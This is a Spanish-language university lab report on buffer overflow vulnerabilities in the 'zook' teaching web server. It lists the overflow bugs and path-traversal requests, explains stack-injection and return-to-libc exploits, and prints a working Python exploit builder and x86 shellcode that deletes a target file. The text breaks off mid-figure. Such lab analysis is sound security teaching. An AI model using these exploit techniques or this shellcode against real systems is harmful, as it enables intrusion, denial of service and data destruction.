\documentclass[12pt]{article}

\usepackage[utf8x]{inputenc}
\usepackage[spanish]{babel}
\usepackage{hyperref}
\usepackage{amssymb,amsmath,amsthm,amsfonts}
\usepackage{calc}
\usepackage{listings}
\usepackage{color}
\usepackage{graphicx}
\newcommand\tab[1][1cm]{\hspace*{#1}}

\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}
\definecolor{mymauve}{rgb}{0.58,0,0.82}

\lstset{ %
  backgroundcolor=\color{white},   % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}
  belowskip=-2.2\baselineskip,
  basicstyle=\footnotesize,        % the size of the fonts that are used for the code
  breakatwhitespace=false,         % sets if automatic breaks should only happen at whitespace
  breaklines=true,                 % sets automatic line breaking
  captionpos=b,                    % sets the caption-position to bottom
  commentstyle=\color{mygreen},    % comment style
  deletekeywords={...},            % if you want to delete keywords from the given language
  escapeinside={\%*}{*)},          % if you want to add LaTeX within your code
  extendedchars=true,              % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
  keepspaces=true,                 % keeps spaces in text, useful for keeping indentation of code (possibly needs columns=flexible)
  keywordstyle=\color{blue},       % keyword style
  language=C,                 % the language of the code
  otherkeywords={*,...},           % if you want to add more keywords to the set
  numbers=left,                    % where to put the line-numbers; possible values are (none, left, right)
  numbersep=5pt,                   % how far the line-numbers are from the code
  numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
  rulecolor=\color{black},         % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
  showspaces=false,                % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
  showstringspaces=true,          % underline spaces within strings only
  showtabs=false,                  % show tabs within strings adding particular underscores
  stepnumber=1,                    % the step between two line-numbers. If it's 1, each line will be numbered
  stringstyle=\color{mymauve},     % string literal style
  tabsize=2,	                   % sets default tabsize to 2 spaces
  title=\lstname                   % show the filename of files included with \lstinputlisting; also try caption instead of title
}
\usepackage{graphicx}
\usepackage{subfigure}
\usepackage{gensymb}
\usepackage{natbib}
\usepackage{url}
\usepackage[utf8x]{inputenc}
\usepackage{amsmath}
\usepackage{graphicx}
\graphicspath{{images/}}
\usepackage{parskip}
\usepackage{fancyhdr}
\usepackage{vmargin}
\setmarginsrb{3 cm}{2.5 cm}{3 cm}{2.5 cm}{1 cm}{1.5 cm}{1 cm}{1.5 cm}

\title{Trabajo Final}					% Titulo
\author{Mariano Crosetti (C-5994/3)}					% Autor
\date{\ Julio de 2016}						% Fecha


\makeatletter
\let\thetitle\@title
\let\theauthor\@author
\let\thedate\@date
\makeatother

\pagestyle{fancy}
\fancyhf{}
\rhead{\theauthor}
\lhead{\thetitle}
\cfoot{\thepage}

\begin{document}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\begin{titlepage}
	\centering
    \vspace*{0.0 cm}
    
\includegraphics[scale = 0.3]{./imagenes/unr.jpg}\\[1 cm]	% Logo Universidad
% * <marianocrosetti1993@gmail.com> 2016-07-05T02:40:27.467Z:
%
% ^.
    \textsc{\LARGE Universidad Nacional de Rosario}\\[2.0 cm]	% Nombre Universidad

	\textsc{\large R-222 Arquitectura del Computador}\\[0.5 cm]		% Nombre Curso
	\rule{\linewidth}{0.2 mm} \\[0.4 cm]
	{ \huge \bfseries \thetitle}\\
	\rule{\linewidth}{0.2 mm} \\[1.5 cm]
	
	\begin{minipage}{0.4\textwidth}
		\begin{center} \large
			\theauthor\linebreak
			\end{center}
	\end{minipage}\\[2 cm]
	
 
	\vfill
	
\end{titlepage}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\tableofcontents
\pagebreak

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Resúmen}
En el presente trabajo analizamos las vulnerabilidades de desbordamiento de búffer todavía vigentes en el software moderno. Luego examinamos el código de un servidor web vulnerable, encontrando código débil y programando exploits que aprovechen estos errores. \\
Actuaremos también de la perspectiva del atacante y mostraremos cómo analizar una vulnerabilidad, la potencialidad que éstas encierran y cómo se diseñan efectivamente los exploits. \\
Dedicaermos un capítulo a explicar cómo solucionamos éstos errores y hablaremos sobre cómo evitar errores de este tipo. \\
Al final hay un capítulo dedicado a un breve repaso teórico de las técnicas de seguridad existentes.



\section{Introducción}
\subsection{Políticas y Modelo de Amenaza}
A la hora de analizar la seguridad de un sistema es necesario definir con precisión las \textbf{políticas} (policy) y el \textbf{modelo de amenaza} (threat model). \\

En nuestro caso pensamos que la política es mantener el servicio web activo y no permitir al atacante modificar o borrar archvos. Ver que sería muy fácil cumplir nuestro objetivo de no intromisión en el servidor, si no pidiéramos también que nuestros servicios web sean accesible, simplemente haciando nada y nunca montando el servidor. La computadora más segura del mundo es la computadora apagada. \\

El modelo de amenaza pensamos en un atacante externo, que puede enviar conexiones y flujo de datos a nuestro puerto 8080 como desee. Ver también que si suponemos un atacante con acceso físico a nuestro sistema sería muy difícil cumplir los objetivos, del mismo modo, si nuestro atacante no tuviera acceso a internet estaríamos en otro contexto sin sentido. \\

Puede parecer trivial en un principio, pero vemos que es muy importante antes que nada definir las políticas y el modelo de amenaza como hemos hecho, para decir si nuestro mecanismo o sistema es seguro o no.


\subsection{Vulnerabilidades de desbordamiento de búffers}
Existen varias maneras que un atacante podría vulnerar la seguridad de nuestro sistema bajo el panorama que hemos planteado. Sin embargo en este trabajo se centra en la explotación de vulnerabilidades de \textbf{desbordamiento de búffer}. Que consisten en aprovechar ciertas rutinas inseguras que no controlan que no se sobrepasen los límites de los búffers, pudiéndose escribir en memoria dedicada a otro propósito. \\

Escencialmente se basan en bugs que corrompen datos que afectan el flujo del programa de algún modo que es provechoso para los objetivos del atacante. \\

En particular es interesante cuando se tratan de búffer ubicados en pila. El objetivo de este ataque suele ser obtener el control del \textit{instruction pointer} y de este modo, ejecutar código malicioso. Una de las principales técnicas es sobrescribiendo el valor del return address de la subrutina en la pila.

\subsection{Exploits}
Un exploit es un programa cuyo objetivo es aprovechar las vulnerabilidades de un sistema con el fin de realizar algún objetivo no deseado por los administradores del mismo. \\

Si bien hay tecnicas o patrones generales para saltar las protecciones de los sistemas, asi como categorías de vulnerabilidades comunes, cada vulnerabilidad es un caso particular puesto que es muy dependiente de cómo se sanean y validan los datos, y cómo éstos repercuten en el flujo del programa. Es por ello que si bien se pueden crear herramientas o patrones para la creacion de exploits más o menos generales, cada caso requiere un análisis particular de las circunstancias y conlleva muchas veces ingeniosas soluciones.



\section{Análisis de vulnerabilidades del servidor ZOOK}
En el presente trabajo proponemos a analizar vulnerabilidades en un pequeño servidor web.\\ 

\subsection{Estructura de módulos}
La estructura de módulos del mismo la resumimos a continuación:
\begin{itemize}
\item \textbf{zookld:} lanza los servicios configurados.
\item \textbf{zookd:} dispatcher que lee la primera línea y redirige al servicio correspondiente (el único con el que se cuenta es zookfs).
\item \textbf{zookfs}: se ocupa de servir archivos y ejecutar cosas.
\item \textbf{http.c:} código relacionado con el protocolo HTTP.
\end{itemize}

\subsection{Vulnerabilidades}
El sistema en sí presenta grandes inseguridades además de las de desbordamiento. Algunas son sutiles por ejemplo una consulta del estilo: \textcolor{blue}{\textit{ "GET /http.c \textbackslash n\textbackslash n" }} Nos devolverá el código en \textit{http.c}. Así, en particular, el atacante puede acceder a cualquier archivo. \\ \\
Una posibilidad de acceso a información más sensible es si por ejemplo hace: \textcolor{blue}{\textit{ "GET /../../../sbin/ifconfig a" }}. Técnica con la cual podria ejecutar tambien otros binarios.

\begin{figure}[htp]
\centering

\includegraphics[scale=0.6]{./imagenes/ifconfig.png}
\caption{Obteniendo informacion sensible de la red del servidor}
\end{figure}

No obstante nos centraremos, como dijimos, en vulnerabilidades de desbordamiento de búffers. Para buscar vulnerabilidades hemos recurrido a la lectura exhaustiva del código prestando atención a las operaciones de entrada del eventual atacante. El problema de verificar si el mecanismo (en esta caso el código en cuestión) garantiza nuestra política bajo las suposiciones del modelo de amenaza planteado se convierte en un problema de encontrar casos bordes, posiblemente no tenidos en cuenta por el programador. \\

Leeímos en el orden en que se ejecuta el servidor y fuimos detectando llamadas a subrutinas potencialmente inseguras. Para hablar de que una subrutina es insegura debiera existir un contrato o especificación, al menos informalmente como comentarios. De lo contrario no es muy claro si las responsabilidades son del llamante o del llamado. Por ejemplo, fuente de numerosas vulnerabilidades es la subrutina \textbf{ \lbrack http.c:437\rbrack } \textit{ void url\_decode (char *src, const char *dst) }. Que realiza un copiado ad-hoc sin checkear de ninguna forma los límites del búffer \textit{dst}. \\

Aquí un listado de vulnerabilidades de desbordamiento de búffer encontradas:

\begin{itemize}
\item  $VUL_1$ \textbf{ \lbrack http.c:105\rbrack } subrutina \textit{http\_request\_line}.
El búffer leído \textit{buf} tiene hasta 8192 de longitud. \textit{reqpath} tiene que tener una longitud adecuada para copiar una dirección de, en peor caso 8185 de largo. \\
Esta subrutina se llama en \textbf{ \lbrack zookd.c:70\rbrack } y \textit{reqpath} es un búffer de tamaño 2048, habiendo posibilidad de desbordamiento.

\item  $VUL_2$ \textbf{ \lbrack http.c:159\rbrack } También causado por una llamada a \textit{url\_decode}. El búffer desbordado es \textit{value} en este caso. La vulnerabilidad se encuntra en la subrutina \textit{http\_request\_headers}, llamada en \textbf{ \lbrack zookfs.c:44\rbrack }.

\item  $VUL_3$ \textbf{ \lbrack http.c:165\rbrack } Otra vulnerabilidad en \textit{http\_request\_headers}, el búffer vulnerable es \textit{envvar}. En ésta es más difícil de controlar el contenido del desbordamiento puesto que aca se juega con los nombres de campos de los headers, los cuales no pueden contener espacios y no existe manera de codificarlo. Ademas el saneamiento de datos reemplaza minúsculas por mayúsculas y '-' por '\_' , lo que podria complicar aprovechar esta vulnerabilidad para un proposito más interesante que simplemente crashear el programa.

\item  $VUL_4$ \textbf{ \lbrack http.c:282\rbrack } subrutina \textit{http\_serve}. No se chequea correctamente que la llamada a \textit{strcat} no cause overflow. El búffer vulnerado es \textit{pn} de tamaño 1024 cuando \textit{name} podría tener un tamaño mucho mayor.\\
Esta subrutina es la encargada de atender la peticion del cliente. Se llama por el proceso esclavo encargado de atender al cliente en \textbf{ \lbrack zookfs.c:47\rbrack }.
 
\item  $VUL_5$ \textbf{ \lbrack http.c:64\rbrack } subrutina \textit{http\_request\_line} llamada en \textbf{ \lbrack zookd.c:70\rbrack }. Esta función no tiene cuidado del tamaño de \textit{env}. Afortunadamente el llamante y llamado tiene inicializado el tamaño del búffer respectivo en 8192. Podríamos considerar que es responsabilidad de cualquiera pero deberia especificarse en el contrato, al menos en un comentario. \\
Igual hay una sutileza no menor. Un input donde:
\begin{lstlisting}
buf = "GET <path>?<query> <cad>\0"
\end{lstlisting}
Causaria que:
\begin{lstlisting}
env = "REQUEST_METHOD=GET\0"
      "SERVER_PROTOCOL=<cad>\0"
      "QUERY_STRING=<query>\0"
      "REQUEST_URI=<path>\0" 
      "SERVER_NAME=zoobar.org\0" 
\end{lstlisting}
Suponiendo que la longitud de \textit{buf} es el máximo, 8192, en \textit{env} se copian hasta 79 caracteres más allá de los limites de su tamaño.
\end{itemize}


\subsection{Exploits}
Para utilizar los exploits, hay que compilar los shellcodes con el comando \textit{make} e utilizar el launcher con la siguiente sintaxis:
\begin{lstlisting}
launcher.py <ip-servidor> <puerto> <nombre-exploit>
\end{lstlisting}
\textit{$<$nombre-exploit$>$} tiene que ser el nombre del módulo python donde se define una función \textit{build\_exploit()} que devuelva el HTTP request a enviar (es el nombre del archivo del exploit a lanzar sin la extensión \textit{.py}). \\ \\
A continuación enumeraremos brevemente los exploits que se han programado en este trabjo práctico, las respectivas vulnerabilidades en las que se basan y algunas particularidades de su implementacion. Han sido testeados con las rutinas correspondientes de evaluacion propuestas del Makefile (check-crash, check-exstack y check-libc). En el capitulo siguiente ahodaremos mas en el proceso de análisis por medio del cual programamos los exploits. \\ \\
Los siguientes exploits causan SIGSEGV sobre algún proceso, cumpliendo el objetivo evaluado por check-crash:
\begin{itemize}
\item  \textit{exploit-crash1.py} ($VUL_1$) causa un SIGSEGV en el proceso que corre el dispatcher, por lo que tira el servidor abajo, suspendiendo su servicio.
\item  \textit{exploit-crash2.py} ($VUL_2$) causa un SIGSEGV en el proceso que atiende al cliente, por lo que NO suspende el servicio. Pero si causa una terminación anómala de un proceso.
\end{itemize}
Los siguientes exploit inyectan un shellcode en el stack y se hace con el control del flujo del programa para ejecutar las instrucciones. Éstas borran el archivo objetivo \textit{/home/http/grades.txt} y terminan el proceso exitosamente. Funcionan para el servidor configurado por \textit{zook-exstack.conf}.
\begin{itemize}
\item  \textit{exploit-iny1.py / shellcode-iny1.S} ($VUL_1$) termina el proceso respectivo al dispatcher, cuasando también la caída del servicio.
\item  \textit{exploit-iny2.py / shellcode-iny2.S} ($VUL_2$) este exploit como el siguiente terminan procesos esclavos encargados del cliente en cuestión, por lo que no causan la caida del servicio, lo que lo vuelve más indetectables.
\item  \textit{exploit-iny3.py / shellcode-iny3.S} ($VUL_4$) a diferencia de los anteriores, se hace del control del programa sobrescribiendo el puntero a una función que se utiliza en una posterior invocación, \textit{handler}, en vez de sobreescribir el return address. Es un claro ejemplo de no limitarse a pensar que sobreescribir el return address es la única manera de dirigir malintencionadamente el flujo del programa. Esto es particularmente útil porque existen métodos de seguridad orientados a protejer la sobreescritura del return address como veremos mas adelante. Tambien, a diferencia de las dos anteriores, en el búfffer \textit{name} ya tenemos una URL decodificada, osea que no contamos con la ventaja de poder aprovechar la URL encode para codificar caracteres como '\textbackslash 0'. Es por ello que incluimos en el código del mismo shellcode instrucciones que colocan un '\textbackslash 0' al final de la cadena que constituirá la ruta del archivo a borrar.
\end{itemize}


Los siguientes exploits han sido diseñados para saltar la seguridad DEP -la cual no nos permite ejecutar instrucciones presentes en la pila- utilizando la técnica de return-to-libc. En capítulos posteriores abordaremos con detalle los métodos de defensa y las técnicas de evadirlas.
\begin{itemize}
\item \textit{exploit-libc1.py} ($VUL_1$) causa la terminación anómala del dispatcher y consecuente caída del servicio. 
\item \textit{exploit-libc2.py} ($VUL_4$) no causa la caída de servicio pero si la terminación anómala de un proceso. En secciones posteriores explicamos que se podría generar una terminación exitosa.
\end{itemize}


\section{Análisis y diseño de exploits}
En esta sección detallaremos la dinámica de una vez encontrada la vulnerabilidad en el codigo C, analizar la potencialidad de la misma para su explotación en un eventual ataque. Asumiremos un conocimiento previo de la arquitectura x86 y su convención de llamada.  \\

\subsection{Debuggeando la vulnerabilidad}
Vamos a ensuciarnos las manos con el debugger para localizar posiciones de memoria interesantes: dónde comienza nuestro buffer vulnerable y dónde se encuentran las variables interesantes para sobreescribir. Lo haremos ilustrativamente para el caso particular de la vulnerabilidad $VUL_1$. \\

En la Figura 2 ejecutamos el servidor y comenzamos a debuggear el proceso respectivo al servicio \textit{zookd} (dispatcher). Colocamos un breakpoint en la función \textit{process\_client}.

\begin{figure}[htp]
\centering

\includegraphics[scale=0.42]{./imagenes/gdb1.png}
\caption{Llegando a la seccion a analizar}
\end{figure}

Desde el exterior con \textit{nc} hacemos una petición cualquiera. Una vez llegado a dicho punto imprimimos direcciones de interés (ver Figura 2). Extraemos la dirección del búffer a sobrescribir (\textit{reqpath}) y la del return value (\textit{\$ebp+4}). Nos aseguramos que efectivamente allí se encuentra la dirección de retorno a la función \textit{main}. Podríamos interesarnos también por la ubicación de la variable $i$ que tiene un rol importante en \textbf{ \lbrack zookd.c:82,85\rbrack }, aunque toma valor luego que desbordamos el búffer, por lo que mas deberíamos preocuparnos no guardar datos útiles en este espacio desbordado.

\begin{figure}[htp]
\centering

\includegraphics[scale=0.47]{./imagenes/gdb2.png}
\caption{Extrayendo informacion de interes}
\end{figure}

\subsection{Construyendo el primer exploit}
 Ahora estamos en posición de comenzar a hacer nuestro primer exploit. El mismo consistirá en una petición especial que aproveche el desbordamiento encontrado. Inyectaremos código malicioso a ejecutar y saltaremos a él sobreescribiendo la dirección del return address.
 
En la URL de la petición incluímos el path del archivo a borrar, las instrucciones del shellcode y un relleno hasta sobrescribir en la return address la dirección de las instrucciones inyectadas. Aquí incluímos el código que produce la petición:

\begin{lstlisting}[language=python,belowskip=\baselineskip]
stack_buffer = 0xbfffee08
stack_rv = 0xbffff61c

def build_exploit():
    shellfile = open("shellcode-iny1.bin", "r")
    shellcode = shellfile.read()

    mystring = "/home/httpd/grades.txt\0"
    preff = "/" + urllib.quote(mystring)
    direcc = preff + shellcode
    shelloffset = len("/" + mystring)

    for x in xrange(0, stack_rv - stack_buffer - shelloffset - len(shellcode)  ):
        direcc += "a"
    direcc += urllib.quote( struct.pack( "<I", shelloffset+stack_buffer ) )

    req =   "GET " + direcc + " HTTP/1.0\r\n" + \
            "\r\n"
    return req
\end{lstlisting}

En \textit{shellcode-iny1.bin} incluímos las instrucciones a ejecutar.
\subsubsection{Shellcode}
Es nuestro conjunto de instrucciones a inyectar. Hay que recordar que la arquitectura del atacante puede ser diferente a la del servidor victima. De hecho en este caso la máquina virtual donde montamos el servidor trabaja con arquitectura i386 y los ataques los lanzamos de x86\_64. Es por ello que en el Makefile que compila nuestra shellcode, usamos la opción de compilar para dicha arquitectura. Es muy común que al compilar una shellcode deban usarse cross-compilers para compilar para la arquitectura de la víctima. \\

 Ver que sólo nos interesan las instrucciones ejecutables, por lo cual compilamos a objeto y luego extraemos el segmento de texto. Es importante que la shellcode sea reducida, ya los espacios a desbordar suelen ser relativamente limitados. Generalmente se programa directamente en ensamblador (como es el caso). Ademas se necesita tener control fino sobre las instrucciones a inyectar, generalmente nuestro conjunto de instrucciones se inyectará como un flujo de datos de input que suele tener restricciones y saneamiento posterior y tiene que lidear con estas trabas de manera ingeniosa. \\
 
Hay que recordar que caracteres como '\textbackslash 0' '\textbackslash n' '\textbackslash r' o ' ' cortarían la URL. Esta vulnerabilidad cuenta con la ventaja que podemos codificar con \textit{URL encode} los datos y de esta manera evitar que el ataque falle por la manera en la que se lee y parsea el input. Se puede, en otros casos, valerse del ingenio para evitar estos caracteres en las instrucciones. Por ejemplo nuestra shellcode no posee nulos ni saltos de línea. Obtiene ceros en los registros utilizando el operador xor. Y valiendose del incremento obtiene el valor 10. A continuación el código del shellcode utilizado, ver que contiene una referencia de memoria al path del archivo a borrar, tambien inyectado en el buffer desbordado:

\begin{lstlisting}[language=,belowskip=\baselineskip]
.globl main
    .type	main, @function

 main:
    xorl	%eax,%eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    inc %eax
    movl $0xbfffee09, %ebx    # path to file to delete
    int  $0x80 

    xorl	%eax,%eax
    xorl	%ebx,%ebx
    inc %eax
    int  $0x80
\end{lstlisting}

En Figura 4 se ve un esquema del stack en el momento del return, que facilitara nuestro entendimiento del exploit: \\

\begin{figure}[htp]
\centering

\includegraphics[scale=0.4]{./imagenes/esquema1.png} \\
\caption{}
\end{figure}


Debuggemos el exploit verificando que efectivamente tiene éxito. En la Figura 5 podemos observar el panorama al momento de retornar. Podemos ver que efectivamente en el return address está la dirección que queríamos y que en dicha dirección se encuentran las instrucciones deseadas. 

\begin{figure}[htp]
\centering

\includegraphics[scale=0.7]{./imagenes/ex1p.png}
\caption{}
\end{figure}

En la Figura 6 ya cambiaron los valores del ebp, que ha sido corrompido por el contenido del padding insertado (en esta caso caracteres 'a', 0x61) y del registro eip (ahora contiene la direccion de nuestra shellcode).

\begin{figure}[htp]
\centering

\includegraphics[scale=0.8]{./imagenes/ex2.png}
\caption{}
\end{figure}


\subsection{Saltando la DEP, saltando a libc }
Si probamos nuestro \textit{exploit-unlink1.py} con el servidor configurado con \textit{zook-nxstack.conf}, que usa los binarios compilados con protección DEP para que la pila no sea una sección de memoria ejecutable, el programa terminará con Segmentation Fault cuando se salta a la dirección escrita sobre la return address porque corresponde a la pila. \\

Explicaremos una técnica denominada return-to-libc para saltear esta seguridad. La implementamos en \textit{exploit-libc1.py}. La técnica consiste en utilizar código ya existente para ejecutar. En particular resulta útil saltar a las funciones de la libc. En el mencionado exploit utilizamos un salto a la función \textit{unlink} para nuestro cometido de borrar el archivo \textit{home/httpd/grades.txt}. A continuación detallamos como fabricamos este exploit. \\

Ejecutamos el servidor configurado por \textit{zook-nxstack.conf} y debugueamos como hicimos anteriormente, localizando posiciones de memoria del return addres, del buffer a desbordar (las direcciones pueden cambiar con cambios en la compilación) y del código de la funcion \textit{unlink}. Desemsablamos el código para ver como funciona. Véase Figuras 7 y 8.
\begin{figure}[htp]
\centering

\includegraphics[scale=0.70]{./imagenes/gdbns1.png}\\
\caption{Buscamos las direcciones utiles en \textit{zook-nxstack.conf}}
\end{figure} 
\begin{figure}[htp]
\centering
